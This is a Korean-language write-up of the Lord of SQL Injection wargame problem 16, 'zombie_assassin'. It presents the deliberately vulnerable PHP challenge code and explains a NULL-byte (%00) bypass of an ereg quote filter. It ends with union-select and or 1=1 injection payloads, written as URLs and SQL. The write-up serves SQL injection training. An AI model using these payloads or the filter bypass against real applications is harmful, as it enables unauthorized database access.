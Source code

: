 ```yaml
---
title: Lord of SQL Injection Write Up No.16 Zombie Assassin
date: 2019-09-01 20:47:20
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 16번 zombie-assassin 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

`'`을 필터링하는 `ereg()` 함수를 우회하여 SQL Injection을 할 수 있는지 확인한다.

### 필요 배경 지식

#### ereg

```php
int ereg ( string $pattern , string $string [, array &$regs ] )
```

- 이미 8번 Troll 문제에서 대소문자 구분 관련 취약점이 밝혀진 `ereg` 함수이다.
- 하지만 `ereg` 함수가 PHP 5.3+ 부터 더 이상 쓰이지 않게 된 이유는 대소문자 구분 때문이 아니다.
- `ereg` 함수는 POSIX Regex 함수의 하나로 PHP 5.3+ 버전에서 `NULL`문자를 만나면 더 이상 뒤의 문자열을 체크하지 않는 취약점을 가지고 있다.
- php의 `ereg` 함수에 대해 잘 모르겠다면 다음 링크를 참고하자.
- [PHP: ereg - Manual](http://php.net/manual/kr/function.ereg.php)
- POSIX Regex 함수의 취약점에 대해 잘 모르겠다면 다음 링크를 참고하자.
- [POSIX Regex와 PCRE Regex](http://blog.do9.kr/entry/POSIX-Regex%EC%99%80-PCRE-Regex)

### 소스 코드 분석

zombie_assassin 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(@ereg("'",$_GET[id])) exit("HeHe");
  if(@ereg("'",$_GET[pw])) exit("HeHe");
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("zombie_assassin");
  highlight_file(__FILE__);
?>
```

#### Filter

```php
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(@ereg("'",$_GET[id])) exit("HeHe");
  if(@ereg("'",$_GET[pw])) exit("HeHe");
```

- GET 방식으로 `id`와 `pw`를 받고, `id`나 `pw`에 `\`, `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.
- 또한, `id`나 `pw`에 `'` 이 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

#### Query

```php
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("zombie_assassin");
```

- 받은 `id`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `id`에 참이 되는 어떤 문자열이든 들어있음'이다.

## Solution

1. NULL 문자 이용

   PHP의 `ereg()` 함수 부분을 보면

   ```php
   if(@ereg("'",$_GET[id])) exit("HeHe");
   if(@ereg("'",$_GET[pw])) exit("HeHe");
   ```

   `ereg()` 함수는 `NULL` 문자를 만나면 더 이상 뒤의 문자열을 체크하지 않는다.

   `NULL` 문자는 URL Encoding을 하면 `%00`이 된다.

   따라서 입력값으로 `%00' union select 1-- -`, `%00' or 1=1-- -` 과 같이 `NULL` 문자가 `'` 앞에 오도록 값을 넣으면 `ereg()` 함수에서 필터링이 이루어지지 않으며, SQL문을 적당히 조작하여 값이 반환되도록 하면 문제가 풀리게 된다.

   ```url
   http://los.eagle-jump.org/zombie_assassin_14dfa83153eb348c4aea012d453e9c8a.php?id=%00' union select 1-- -
   http://los.eagle-jump.org/zombie_assassin_14dfa83153eb348c4aea012d453e9c8a.php?id=%00' or 1=1-- -
   ```

   ```sql
   select id from prob_zombie_assassin where id='' union select 1-- -' and pw=''
   select id from prob_zombie_assassin where id='' or 1=1-- -' and pw=''
   ```
